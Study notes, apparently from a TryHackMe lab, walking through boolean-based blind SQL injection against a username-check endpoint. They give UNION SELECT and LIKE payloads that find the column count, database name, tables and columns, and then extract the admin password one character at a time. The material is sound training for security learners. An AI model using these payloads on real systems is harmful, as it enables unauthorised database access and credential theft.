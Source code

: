 ```yaml
---
title: 4.2.1 Boolean-based blind SQLi
updated: 2022-11-28T15:22:25.0000000+04:00
created: 2022-11-28T14:55:01.0000000+04:00
---
```


**<u>4.2.1 Boolean-based blind SQLi</u>**
Monday, November 28, 2022
2:55 PM

**<u>Boolean-based blind SQLi</u>**

- attacker mainly sends an SQL query to the database, and the response identifies whether the query is a true or false result
- yes/no, on/off, 1/0 or any response which can only ever have two outcomes.

1.  **<u>Example 1 of Boolean-based blind SQLi</u>**

![image1](image1-183.png)

<https://website.thm/checkuser?username=admin>

1.  The browser body contains the contents of {"taken":true}.
2.  This API endpoint replicates a common feature found on many signup forms
3.  checks whether a username has already been registered to prompt the user to choose a different username.
4.  Because the taken value is set to true, we can assume the username admin is already registered.
5.  In fact, we can confirm this by changing the username in the mock browser's address bar from **admin to admin123**, and upon pressing enter, you'll see the value taken has now changed to false.

![image2](image2-81.png)

1.  The SQL query that is processed looks like the following:

- **select \* from users where username = '%username%' LIMIT 1;**

1.  As the only input, we have control over is the username in the query string
2.  we'll have to use this to perform our SQL Injection.
3.  Keeping the username as **admin123**,
4.  we can start appending to this to try and make the database confirm true things, which will change the state of the taken field from false to true.

**<u>Determine the number of Columns in the user table</u>**

1.  Change the username value to the following:
- admin123' UNION SELECT 1;--

![image3](image3-53.png)

1.  web application has responded with the value taken as false, we can confirm this is the incorrect value of columns
2.  Keep on adding more columns until we have a taken value of true
- admin123' UNION SELECT 1,2,3;--
![image4](image4-36.png)

**<u>Discovering the Database Name</u>**

1.  Now that our number of columns has been established
2.  Our first task is **discovering the database name.**
3.  We can do this by using the built-in **database()** method and then using the like operator to try and find results that will return a true status.

Try the below username value and see what happens:
- admin123' UNION SELECT 1,2,3 where database() like '%';--

![image5](image5-24.png)

1.  We get a true response because, in the like operator, we just have the value of **%, which will match anything as it's the wildcard value**.

2.  If we change the wildcard operator to **a%**, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a.  

3.  We can cycle through all the letters, numbers and characters such as - and \_ until we discover a match.

4.  If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter s.
- admin123' UNION SELECT 1,2,3 where database() like 's%';--

![image6](image6-16.png)

1.  Now you can move up to the next character of the database name until you find another true response.
2.  Example: **'sa%', 'sb%', 'sc%**' etc.
3.  The final database name in this case is: **sqli_three**

**<u>Enumerating Table Names</u>**

1.  Once you have established the database name, you can use it to enumerate for the tables names, (similar method to the previous tasks)
2.  Set the username parameter in the URL as followed:

- admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

1.  Again like the previous method to identify the database name, you need to cycle through all letters until you receive a true response.
2.  You'll finally end up discovering a table in the **sqli_three database named users,**
3.  which you can be confirmed by running the following username payload:
- admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--

![image7](image7-12.png)

**<u>Enumerating Column Names</u>**

1.  we now need to enumerate the column names in the users table so we can properly search it for login credentials
2.  we search the columns table where the database is equal to sqli_three, the table name is users, and the column name begins with the letter a.
- admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
3.  You will need to cycle through the letters as before until you find the correct column name with true responces.

**<u>Appending found column names</u>**

1.  you'll have to add the found column name to your payload each time you find a new column name,
2.  so you don't keep discovering the same one.
3.  For example, once you've found the column named **id, you'll append that to your original payload (as seen below).**

- admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

1.  Repeating this process three times will **enable you to discover the columns id, username and password.**

**<u>Enumerating Usernames:</u>**

1.  now you can use to query the users table for login credentials. First, you'll need to discover a valid username which you can use the payload below:

- admin123' UNION SELECT 1,2,3 from users where username like 'a%

1.  once you've cycled through all the characters, you will confirm the existence of the username **admin**.

**<u>Enumerating Passwords:</u>**

1.  Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

- admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
